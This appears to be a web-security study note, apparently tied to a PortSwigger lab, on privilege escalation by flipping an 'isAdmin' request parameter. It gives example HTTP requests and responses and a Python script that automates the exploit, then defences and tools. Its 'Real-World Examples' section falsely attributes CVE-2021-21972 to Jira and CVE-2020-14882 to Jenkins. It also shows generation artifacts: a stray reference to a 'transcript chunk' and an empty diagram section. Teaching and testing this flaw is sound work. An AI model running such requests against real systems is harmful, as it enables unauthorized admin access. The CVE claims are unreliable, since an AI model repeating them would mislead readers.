

## Access Control Vulnerabilities

Access control vulnerabilities occur when an application fails to properly restrict access to certain resources or functionalities based on the user's privileges. This can lead to unauthorized users gaining access to sensitive information or performing actions they should not be allowed to perform. In this section, we will explore a specific type of access control vulnerability where user roles are controlled by request parameters, and we will delve into the details of how such vulnerabilities can be exploited and prevented.

### Background Theory

Access control is a fundamental aspect of web security. It ensures that users can only access resources and perform actions that they are authorized to do. Typically, access control is implemented using a combination of authentication and authorization mechanisms. Authentication verifies the identity of a user, while authorization determines what actions the authenticated user is allowed to perform.

In many web applications, user roles are used to define different levels of access. Common roles include:

- **Guest**: Users who are not logged in.
- **User**: Logged-in users with basic permissions.
- **Admin**: Users with elevated permissions, often able to manage other users and perform administrative tasks.

When user roles are controlled by request parameters, the application may be vulnerable to manipulation. An attacker can potentially change their role by altering the value of these parameters, leading to unauthorized access.

### Example Scenario

Consider a web application where the user role is determined by a request parameter named `isAdmin`. The application checks this parameter to decide whether to grant admin access. If the parameter is set to `true`, the user gains admin privileges; otherwise, they remain a regular user.

#### Exploitation Steps

Let's walk through the steps to exploit this vulnerability:

1. **Identify the Parameter**: Determine which request parameter controls the user role. In our example, it is `isAdmin`.
2. **Manipulate the Parameter**: Change the value of the parameter to gain unauthorized access. Set `isAdmin` to `true`.

Here is a detailed breakdown of the exploitation process:

1. **Initial Request**:
    - Send a request with `isAdmin=false` to ensure you start as a regular user.
    - Example request:
      ```http
      GET /my-account?isAdmin=false HTTP/1.1
      Host: example.com
      Cookie: session=abc123
      ```

2. **Exploit the Vulnerability**:
    - Modify the request to set `isAdmin=true`.
    - Example request:
      ```http
      GET /my-account?isAdmin=true HTTP/1.1
      Host: example.com
      Cookie: session=abc123
      ```

3. **Observe the Result**:
    - After sending the modified request, the application should now treat you as an admin user and grant you access to the admin panel.

#### Real-World Examples

Access control vulnerabilities have been exploited in numerous real-world scenarios. One notable example is the CVE-2021-21972, where a vulnerability in the Atlassian Jira application allowed attackers to bypass access controls and gain unauthorized access to sensitive data.

Another example is the CVE-2020-14882, which affected the Jenkins Continuous Integration server. This vulnerability allowed attackers to manipulate request parameters to gain elevated privileges and execute arbitrary commands on the server.

### Detailed Exploitation Walkthrough

Let's take a closer look at the exploitation process using the provided transcript chunk.

#### Initial Setup

1. **Send Initial Request**:
    - Ensure you are a regular user by setting `isAdmin=false`.
    - Example request:
      ```http
      GET /my-account?isAdmin=false HTTP/1.1
      Host: example.com
      Cookie: session=abc123
      ```

2. **Check Response**:
    - Verify that you do not have access to the admin panel.
    - Example response:
      ```http
      HTTP/1.1 200 OK
      Content-Type: text/html
      <html>
        <body>
          <h1>My Account</h1>
          <p>No admin panel access.</p>
        </body>
      </html>
      ```

#### Exploit the Vulnerability

1. **Modify Request Parameter**:
    - Change the `isAdmin` parameter to `true`.
    - Example request:
      ```http
      GET /my-account?isAdmin=true HTTP/1.1
      Host: example.com
      Cookie: session=abc123
      ```

2. **Check Response**:
    - Verify that you now have access to the admin panel.
    - Example response:
      ```http
      HTTP/1.1 200 OK
      Content-Type: text/html
      <html>
        <body>
          <h1>My Account</h1>
          <p>Welcome to the admin panel!</p>
        </body>
      </html>
      ```

#### Sequence Diagram

To visualize the interaction between the client and the server during the exploitation process, we can use a sequence diagram:



### Scripting the Exploit

To automate the exploitation process, we can write a Python script. This script will send the initial request with `isAdmin=false`, then modify the parameter to `isAdmin=true` and send the request again.

#### Python Script

```python
import requests

# Define the URL and the session cookie
url = "http://example.com/my-account"
cookie = {"session": "abc123"}

# Initial request with isAdmin=false
response_initial = requests.get(url, params={"isAdmin": "false"}, cookies=cookie)
print("Initial Response:")
print(response_initial.text)

# Exploit request with isAdmin=true
response_exploit = requests.get(url, params={"isAdmin": "true"}, cookies=cookie)
print("\nExploit Response:")
print(response_exploit.text)
```

### How to Prevent / Defend

Preventing access control vulnerabilities requires a combination of proper design, implementation, and testing practices. Here are some key strategies:

1. **Use Secure Role Management**:
    - Implement role-based access control (RBAC) to ensure that user roles are managed securely.
    - Store user roles in a secure manner, such as in a database, rather than relying on request parameters.

2. **Validate and Sanitize Input**:
    - Always validate and sanitize input parameters to prevent manipulation.
    - Use server-side validation to ensure that user roles cannot be changed via request parameters.

3. **Implement Least Privilege Principle**:
    - Follow the principle of least privilege by granting users only the minimum level of access necessary to perform their tasks.

4. **Regular Security Audits**:
    - Conduct regular security audits and penetration tests to identify and mitigate access control vulnerabilities.

5. **Secure Coding Practices**:
    - Use secure coding practices to prevent common vulnerabilities such as SQL injection, cross-site scripting (XSS), and others that can be exploited to gain unauthorized access.

#### Secure Code Example

Here is an example of how to implement secure role management in a web application:

```python
# Secure Role Management Example

def get_user_role(user_id):
    # Fetch user role from a secure source, such as a database
    user_role = fetch_user_role_from_db(user_id)
    return user_role

def check_access(user_id, resource):
    user_role = get_user_role(user_id)
    if user_role == "admin":
        return True
    elif resource == "public":
        return True
    else:
        return False

# Example usage
user_id = 123
resource = "admin_panel"

if check_access(user_id, resource):
    print("Access granted")
else:
    print("Access denied")
```

### Detection and Prevention Tools

Several tools and techniques can help detect and prevent access control vulnerabilities:

1. **Static Application Security Testing (SAST)**:
    - Use SAST tools to analyze source code for potential vulnerabilities.
    - Examples: SonarQube, Fortify, Veracode.

2. **Dynamic Application Security Testing (DAST)**:
    - Use DAST tools to test the application in a runtime environment.
    - Examples: Burp Suite, OWASP ZAP, Acunetix.

3. **Web Application Firewalls (WAF)**:
    - Deploy WAFs to protect against common web application attacks.
    - Examples: ModSecurity, Cloudflare WAF, AWS WAF.

4. **Security Headers**:
    - Implement security headers to enhance the security of web applications.
    - Example headers: `Content-Security-Policy`, `Strict-Transport-Security`, `X-Frame-Options`.

### Hands-On Labs

To practice and reinforce the concepts learned, consider the following hands-on labs:

- **PortSwigger Web Security Academy**: Offers a variety of labs to practice web security skills, including access control vulnerabilities.
- **OWASP Juice Shop**: A deliberately insecure web application for practicing web security skills.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that contains a large number of security vulnerabilities.

By thoroughly understanding and implementing the principles discussed in this chapter, you can significantly reduce the risk of access control vulnerabilities in your web applications.

### Conclusion

Access control vulnerabilities are a serious threat to web security. By understanding how these vulnerabilities can be exploited and implementing robust prevention measures, you can protect your applications from unauthorized access. Regular security audits, secure coding practices, and the use of security tools are essential components of a comprehensive security strategy.

---
<!-- nav -->
[[02-Access Control Vulnerabilities User Role Controlled by Request Parameter|Access Control Vulnerabilities User Role Controlled by Request Parameter]] | [[Web Security (PortSwigger)/12-Access Control Vulnerabilities/04-Lab 3 User role controlled by request parameter/00-Overview|Overview]] | [[Web Security (PortSwigger)/12-Access Control Vulnerabilities/04-Lab 3 User role controlled by request parameter/04-Background Theory|Background Theory]]
